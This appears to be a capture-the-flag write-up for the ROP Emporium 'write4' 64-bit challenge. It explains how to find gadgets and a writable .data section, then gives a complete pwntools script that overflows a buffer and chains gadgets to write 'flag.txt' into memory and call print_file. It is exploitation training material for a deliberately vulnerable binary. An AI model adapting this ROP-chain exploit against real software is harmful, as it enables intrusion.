 # write4
[https://thehackerlife.medium.com/rop-emporium-write4-challenge-writeup-64-bit-updated-2020-742eab2722ec](https://thehackerlife.medium.com/rop-emporium-write4-challenge-writeup-64-bit-updated-2020-742eab2722ec) 

we have a `print_file` function but the argument `flag.txt` to print our flag isn't in the binary, so we need to "write" our string “flag.txt” into a writable register and using a rop chain to call our `print_file` with our custom argument by specifying the address of where we have written our string.

We need a “de-referenced”(has the format `mov [r11], r12`)  and writable register, running ropgadget we can find our interesting gadgets using:

```text-plain
ROPgadget --binary ./write4
```

![](write4/image.png)

we can use r2 to show us rw segments of memory, using `iS`

![](write4/1_image.png)

after selecting our registers, we need to “pop” values into them, so we search for `pop` gadgets.

![](write4/2_image.png)

To check if there is anything in a section or if writing anything messes up something else, use:

```text-plain
 readelf -x .data write4
```

```text-plain
from pwn import *

#declaring binaries, elf, libc
context.binary = binary = './write4'
elf = ELF(binary)
rop = ROP(elf)

#helper functions
def ASCII_to_Hex(value):
    res = ""
    for i in value:
    	res += hex(ord(i))[2:]
    return res 
    
def changeEndian(value):
    length = len(value)
    res = "0x"
    for i in range(length-1, 0, -2):
        res += value[i-1]+ value[i]
    return res
    
def generateString(value):
    return int(changeEndian(ASCII_to_Hex(value)), 16)


# useful gadgets 
#0x0000000000400628 : mov qword ptr [r14], r15 ; ret
#0x00601028 .data address to write string flag.txt
#0x0000000000400693 : pop rdi ; ret
#0x0000000000400690 : pop r14 ; pop r15 ; ret


#payload, symbols, rop chains, 
padding = b'A'*40  						#filling up buffer with junk
pop_r14_r15 = p64(0x0000000000400690)	#pop r14 ; pop r15 ; ret poping registers 
r14 = p64(0x00601028)					#.data address which will have an address to our value after mov (for r14 cuz it's derefernced)
r15 = p64(generateString("flag.txt"))	#using helper functions to convert value to hex and little endian (for r15)
mov_r14_r15 = p64(0x0000000000400628)	#mov qword ptr [r14], r15 ; ret This moves the flag.txt value into the r14 register
pop_rdi = p64(0x0000000000400693)		#pop rdi ; ret 
print_file = p64(0x00400510)			#print_file function address

#popping/emptying registers and specifying the values for them, in this case, empty r14,15 and then r14,15
#we need two registers, one writable(r14) and one to temporarily "hold" our value(r15)
payload = padding + pop_r14_r15 + r14 + r15 + mov_r14_r15 + pop_rdi + r14 + print_file

#sending payload, process interaction
io = process(binary)

io.sendlineafter(b'> ', payload)

io.interactive()
```